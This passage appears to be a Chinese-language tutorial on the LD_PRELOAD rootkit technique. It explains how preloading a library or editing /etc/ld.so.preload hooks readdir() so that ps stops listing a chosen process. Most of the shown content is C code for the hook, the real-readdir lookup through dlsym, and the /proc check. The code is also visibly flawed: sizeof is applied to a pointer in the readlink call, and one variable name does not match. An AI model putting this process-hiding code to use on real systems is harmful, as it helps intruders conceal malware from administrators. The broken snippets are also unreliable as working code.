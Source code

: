 Linux提供了一个接口`LD_PRELOAD`，这是系统的一个`环境变量`，其配置文件是`/etc/ld.so.preload`，二者通过`动态链接器`来实现关联。`LD_PRELOAD`作用是影响进程运行时的链接，它允许用户自定义在进程运行前优先加载的`动态链接库`，其目的就是为了有选择性的载入不同`动态链接库`中的相同函数，而通过此环境变量，攻击者就可以在主进程和`动态链接库`之间优先插入自己的库，然后将正常的`函数库`覆盖。
LD_PRELOAD攻击思路：
1. `export LD_PRELOAD=/path/xxx.so`设置优先加载的`动态链接库`
2. 将`动态链接库`写入配置文档`/etc/ld.so.preload`中
3. 修改`动态链接器`(文件名不一定)

利用第一种方式，写一个`demo`然后按照`PID`隐藏指定的进程。
> 这儿得看一下`ps`的具体实现，才能知道去修改哪个函数，`which ps`然后`pacman -Qo /usr/bin/ps`(`dpkg -S /usr/bin/ps`)查看到底属于哪个包，查看包源码即可，但是太麻烦了，`ps`使用的是`readdir`函数

因为要重写`readdir`函数，因此取参以及返回类型要完全相同
```
#include <dirent.h>
struct dirent *readdir(DIR *dirp){
  //TODO
}
```
还要在代码中定义好`DIR类型`的结构体
```
#define __libc_lock_define(CLASS,NAME)
struct __dirstream
   {
    void *__fd;
    char *__data;
    int __entry_data;
    char *__ptr;
    int __entry_ptr;
    size_t __allocation;
    size_t __size;
     __libc_lock_define (, __lock)
   };
typedef struct __dirstream DIR;
```
在程序调用我们`假的readdir`函数时，函数内部去调用真正的`readdir`获取到结果，用相同的结构去存储结果
```
#include <dlfcn.h>
typeof(readdir) *truereaddir;
truereaddir = dlsym(RTLD_NEXT, "readdir");  //获取到指定动态链接库中的符号地址
struct dirent *content;
content = truereaddir(dirp);
```
针对这个`content`做如下操作：
1. 判断当前进程是否打开的是`/proc`
```
int dirnamefd(DIR *dirp,char *filter_path){

  int fd = dirfd (dirp);
  if(fd == -1){
    return 0;
  }

  char path[128]={0};
  sprintf (path, "/proc/self/fd/%d",fd);

  ssize_t kk = readlink (path, filter_path, sizeof (filter_path));
  if(kk == -1){
    return 0;
  }

  filter_path[kk]=0;
  return 1;
}

strcmp (path_filter,"/proc")==0
```